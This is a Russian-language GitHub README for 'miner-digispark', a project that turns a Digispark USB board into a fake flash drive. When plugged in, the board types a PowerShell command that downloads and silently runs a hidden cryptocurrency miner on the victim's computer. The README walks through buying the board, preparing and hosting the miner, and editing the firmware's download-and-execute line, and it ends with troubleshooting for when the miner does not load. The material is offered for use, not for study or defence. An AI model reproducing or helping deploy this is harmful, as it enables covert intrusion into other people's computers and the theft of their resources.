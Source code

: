 # miner-digispark | Вирус в флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Советую на виртуалке) 
> Видео-инструкция -- https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8
- Загружаем майнер на github/обменник/сервер (нужен полный путь до файла https://... exe)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
- Готово! 
## Вопрос - Ответ
### Как работает?
- После подключения Digispark к USB нажимается WIN+R, а далее вводится подготовленная команда которая будет устанавливать и запускать майнер.
### Работает, но майнер не загружается
- Возможно нету доступа к папке. Попробуйте сменить расположение. Если не помогло, то убедитесь в корректности загрузочной ссылки, должна быть укаазана **прямая** ссылка до файла (Пример: https: //file.exemple/my_miner.exe) 

## Контакты для связи
- [TELEGRAM](https://t.me/soketpy)

 
